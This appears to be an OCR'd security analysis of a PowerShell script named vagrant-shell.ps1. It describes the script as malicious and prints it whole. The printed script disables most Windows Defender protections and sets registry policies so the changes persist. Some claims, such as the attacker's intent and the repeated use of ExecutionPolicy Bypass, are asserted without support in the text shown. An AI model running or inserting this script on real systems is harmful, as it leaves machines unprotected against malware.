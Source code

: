 ## `vagrant-shell.ps1` 
The content of the `vagrant-shell.ps1` script you retrieved confirms that it is designed to **disable critical Windows Defender features**. This script systematically disables various security mechanisms of Windows Defender, including:

### Key Points from the Script:

1. **Disabling Real-Time Monitoring and Protection**:
   - **Set-MpPreference** commands disable real-time scanning, behavior monitoring, IOAV protection, email scanning, and archive scanning.
   - These settings are essential for the real-time detection and prevention of malware.

2. **Modifications to Windows Defender Settings via the Registry**:
   - The script ensures that these settings persist across reboots by writing values directly into the registry under **HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender**.
   - This registry-based persistence ensures that even if Windows Defender tries to reset itself, these policies will block its critical features from re-enabling.

3. **Disabling Scanning of Network and Mapped Drives**:
   - These commands prevent Defender from scanning network files and mapped drives, creating a blind spot where malware could reside undetected.

4. **Disabling Windows Defender’s ability to submit samples**:
   - Disabling sample submissions to Microsoft means that if a new malware strain is detected, it will not be sent for further analysis or blacklisting.

5. **Persistence and Registry Manipulation**:
   - The script ensures the above configurations persist by checking if the registry path exists and creating it if necessary. This step makes it harder for an admin to re-enable these settings without deep investigation and corrective actions.

### Malicious Intent:

- **Disabling Security Protections**: The sole purpose of this script is to cripple Windows Defender, preventing it from detecting or blocking malicious activities.
- **Persistence through Registry**: The script’s use of registry changes ensures that these disabling settings remain active, even after reboots or other typical recovery attempts.
- **Execution via PowerShell**: This script being repeatedly run with **ExecutionPolicy Bypass** makes it clear that the attacker is overriding default security controls to execute this script without interruptions.

```powershell
# Disable Windows Defender features in real time
Set-MpPreference -MAPSReporting 0
Set-MpPreference -SubmitSamplesConsent 2
Set-MpPreference -DisableRealtimeMonitoring $True
Set-MpPreference -DisableBehaviorMonitoring $True
Set-MpPreference -DisableIntrusionPreventionSystem $True
Set-MpPreference -DisableIOAVProtection $True
Set-MpPreference -DisableRealtimeMonitoring $True
Set-MpPreference -DisableScriptScanning $True
Set-MpPreference -DisableArchiveScanning $True
Set-MpPreference -DisableCatchupFullScan $True
Set-MpPreference -DisableCatchupQuickScan $True
Set-MpPreference -DisableEmailScanning $True
Set-MpPreference -DisableRemovableDriveScanning $True
Set-MpPreference -DisableRestorePoint $True
Set-MpPreference -DisableScanningMappedNetworkDrivesForFullScan $True
Set-MpPreference -DisableScanningNetworkFiles $True
Set-MpPreference -DisableBlockAtFirstSeen $True


# Persist Windows Defender features settings in registry
$path = "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender"
if (!(Test-Path -Path $path)) {
    New-Item -Path $path -Force
}
New-ItemProperty -Path $path -Name "DisableAntiSpyware" -PropertyType DWord -Value 1 -Force

$path = "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet"
if (!(Test-Path -Path $path)) {
    New-Item -Path $path -Force
}

New-ItemProperty -Path $path -Name "SubmitSamplesConsent" -PropertyType DWord -Value 2 -Force

$path = "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection"
if (!(Test-Path -Path $path)) {
    New-Item -Path $path -Force
}

New-ItemProperty -Path $path -Name "DisableRealtimeMonitoring" -PropertyType DWord -Value 1 -Force
New-ItemProperty -Path $path -Name "DisableBehaviorMonitoring" -PropertyType DWord -Value 1 -Force
New-ItemProperty -Path $path -Name "DisableOnAccessProtection" -PropertyType DWord -Value 1 -Force
New-ItemProperty -Path $path -Name "DisableScanOnRealtimeEnable" -PropertyType DWord -Value 1 -Force
```
